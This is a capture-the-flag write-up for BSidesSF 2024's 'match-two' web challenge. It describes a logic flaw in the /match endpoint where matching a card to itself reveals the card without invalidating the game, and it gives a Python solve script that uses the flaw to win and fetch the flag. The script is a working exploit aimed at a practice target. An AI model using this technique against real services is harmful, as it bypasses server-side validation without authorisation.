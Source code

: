 ```yaml
---
CTF: BSidesSF'24
Category: web
Points: "100"
Date: 2024-05-05
Solved?:
---
```

----
[<- Home](../../)
### TL;DR

Recreated using [WU](https://github.com/BSidesSF/ctf-2024-release/tree/main/match-two/solution)

**Flag**

```
ctf{fake_flag}
```

### Details

Description

> Match cards to win (again!), don't get any wrong
> 
> Author: itsc0rg1, Mandatory
> 
> https://match-two-c5478b38.challenges.bsidessf.net/


Files
< nope :/ >

Using `/match` endpoint we need to match the cards. However, the enumeration from 0 to 16 is not suitable, because if state = 0 is found somewhere, the game state will be set to INVALID and you cannot fetch the flag.

Here is the catch, `/match` has a logic error: if you make a call to match a card to itself - your game state remains valid.

```
/match?first_pos=2&second_pos=2
```

will give obj like this:

```
  {
    "first_svgdata": "PHN2Z [...]",
    "second_svgdata": "PHN2Z [...]",
    "state": -1
  }
```

solve.py

```python
#!/usr/bin/env python3

import sys
import json
import requests

from bs4 import BeautifulSoup

def solve():
    if len(sys.argv) != 3:
        print("Please specify challenge URL and the username")
        print("python solution.py <challenge-url> <username>")
        print("E.g, python3 solution.py http://127.0.0.1:8000 aboba")
        sys.exit()

    # Variables 
    url = sys.argv[1]
    username = sys.argv[2]
    password = "fake-ctf{fake-flag}"


    with requests.Session() as s:
        
        reg_param = {'username': username, 'password': password, 'confirm': password, 'submit': 'Register'}
        response = s.post(f"{url}/register", json=reg_param)
        print(f'[*] Created new user: {username=}, {password=}')
        
        login_param = {'username': username, 'password': password, 'submit': 'Login'}
        response = s.post(f"{url}/login", json=login_param)
        print(f'[*] Logged as {username}')

        imgs = []
        
        for i in range(0, 16):
            print(f'[*] Checking pos = {i}', end='\r')
            response = s.get(f"{url}/match?first_pos={i}&second_pos={i}")
            try:
                data = json.loads(response.text)
                if "first_svgdata" in data:
                    imgs.append(data["first_svgdata"])
            except json.JSONDecodeError as e:
                print(f"Error parsing JSON: {e}")
                sys.exit()

        print(f'[*] Checking for matching...')
        matching_positions = {}
        for i, x in enumerate(imgs):
            if x in matching_positions:
                print(f'[&] Found match: {matching_positions[x][0]} + {i}')
                matching_positions[x].append(i)
            else:
                matching_positions[x] = [i]
        
        match_url = f"{url}/match?"
        
        print(f'[*] Matching the cards...')
        for i in matching_positions:
            print(f'[&] {matching_positions[i]}')
            pos_args = f"&first_pos={matching_positions[i][0]}&second_pos={matching_positions[i][1]}"
            match_url = f"{url}/match?{pos_args}"
            response = s.get(match_url)

        print(f'[*] Here it comes....')
        response = s.get(f"{url}/flag")

        soup = BeautifulSoup(response.text, 'html.parser')
        flag = soup.find('h4').text.strip()
        print(f'{flag=}')


if __name__ == "__main__":
    solve()

```